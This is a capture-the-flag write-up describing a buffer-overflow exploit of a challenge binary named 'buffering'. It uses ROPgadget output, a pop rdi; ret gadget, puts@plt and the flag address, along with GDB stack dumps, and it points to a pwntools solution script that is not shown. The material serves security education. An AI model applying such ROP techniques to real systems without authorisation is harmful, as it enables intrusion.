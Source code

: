 Since the executables do not use ASLR, we can count on addresses being the same across executions. Using the provided ELF file, I opened it in GDB, noted the spacing between the `username` char array and the return address, and discovered the address of `puts@plt` and address of `flag` (found by doing `p &flag` command in gdb). I also used the tool `ROPgadget` to identify ROP-gadgets that I could use from the binary:

`ROPgadget --binary buffering`

I noted the entry which had `pop rdi; ret` since it was all I needed to perform the print-out:

~~~console
0x00000000004013ef : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000040119d : pop rbp ; ret
0x00000000004013f3 : pop rdi ; ret
~~~

To construct the exploit using `pwntools`, I consulted a similar tutorial from John Hammond (found [here](https://www.youtube.com/watch?v=E8Ykh-UC2f0&list=RDCMUCVeW9qkBjo3zosnqUbG7CFw&start_radio=1&rv=E8Ykh-UC2f0&t=910)). The script he created was very helpful because it included instructions for how to interact with a local binary versus a live server (which is the instance that has the flag stored in it). He also pointed out how we could construct a ROP-chain in Python by placing the elements in a list and then using `p64()` to pack the hex values into 64-bit entries.

The solution to the problem can be found at `sec_exp.py`

I have also included some of my gdb notes from the problem below:

~~~text
Location of `username`: rbp-0x20

`leave` instruction for `get_credentials()`: 0x000000000040135f
`ret` instruction for `get_credentials()`: 0x0000000000401360

Return instruction after `get_credentials()`: 0x00000000004011e7

Stack at `leave`: 
gef➤  x/64wx $rbp-0x20
0x7fffffffddd0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffdde0:	0x41414141	0x41414141	0x000a4141	0x00000000
0x7fffffffddf0:	0xffffde10	0x00007fff	0x004011e7	0x00000000
0x7fffffffde00:	0xffffde10	0x00000000	0x00000000	0x00000000
0x7fffffffde10:	0x00000000	0x00000000	0xf7de20b3	0x00007fff
0x7fffffffde20:	0x00000071	0x00000000	0xffffdf08	0x00007fff
0x7fffffffde30:	0xf7fa3618	0x00000001	0x004011b6	0x00000000
0x7fffffffde40:	0x00401390	0x00000000	0xed4353ff	0x9d50202e
0x7fffffffde50:	0x004010d0	0x00000000	0xffffdf00	0x00007fff
0x7fffffffde60:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffde70:	0x510353ff	0x62afdfd1	0xad8d53ff	0x62afcf92
0x7fffffffde80:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffde90:	0x00000000	0x00000000	0x00000001	0x00000000
0x7fffffffdea0:	0xffffdf08	0x00007fff	0xffffdf18	0x00007fff
0x7fffffffdeb0:	0xf7ffe190	0x00007fff	0x00000000	0x00000000
0x7fffffffdec0:	0x00000000	0x00000000	0x004010d0	0x00000000

Location of `print_flag()`: 0x401361

Location of `flag` buffer:
gef➤  p &flag
$1 = (<data variable, no debug info> *) 0x404060 <flag>

Location of `puts@plt`: 
0x0000000000401370 <+15>:	call   0x401080 <puts@plt>

Gadget: 
0x00000000004013f3 : pop rdi ; ret
~~~

